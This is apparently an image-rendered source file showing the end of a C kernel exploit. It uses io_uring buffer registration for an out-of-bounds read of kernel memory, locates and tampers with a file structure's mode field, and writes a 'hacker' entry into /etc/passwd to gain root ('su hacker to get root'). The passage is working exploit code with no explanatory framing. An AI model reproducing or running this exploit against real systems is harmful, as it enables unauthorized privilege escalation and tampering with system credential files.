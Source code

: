 ```
        {
            void* oob_addr = uiovec.iov_base+vir_off*PAGE_SIZE;
            submit_sqe(&ring,recv_fd,oob_addr,block_size,SUBMIT_WRITE);
            // binary_dump("recv_buf",recv_buf,block_size*PAGE_SIZE);
            ret= leak_addr(recv_buf,block_size*PAGE_SIZE);
            if (ret==-1) continue;
// 5、oob读取成功，开始提取信息
            logu("oob_addr -> %p offset -> %p",oob_addr,vir_off*PAGE_SIZE);
            void* filp_addr = oob_addr+ret;
            logi("offset : %d v2p_filp_addr : %p",ret,filp_addr);
// 6、篡改filp
            *(uint32_t*)recv_buf = 0x484f801f;
            submit_sqe(&ring,recv_fd,filp_addr+68,4,SUBMIT_READ);
        
            for (size_t i = 0; i < nr_files; i++)
            {
                if(write(files[i],hacker_buf,hacker_len)>0){
                    logw(" hacker /etc/passwd successful");
                    break;
                }                  
            }
            stat("/etc/passwd",&status);
            logu("passwd_size -> %d",status.st_size);
            if(status.st_size==passwd_size)continue;
            logi("su hacker to get root");
            exit(0);
        }

        io_uring_unregister_buffers(&ring);
        munmap(oob_buf,nr_pages* PAGE_SIZE);
    }
    
    munmap(recv_buf,block_size*PAGE_SIZE);
    close(recv_fd);
    for (size_t i = 0; i < nr_memfds ; i++)
    {
        close(files[i]);
        close(memfds[i]);
    }
    
    
    RED;puts("[*]failed");CLOSE;
    return 0;
}

void bind_cpu(int core)
{
    cpu_set_t cpu_set;

    CPU_ZERO(&cpu_set);
    CPU_SET(core, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);
    BLUE;printf("[*] bind_cpu(%d)",core);CLOSE;
}

```  
```
```  
  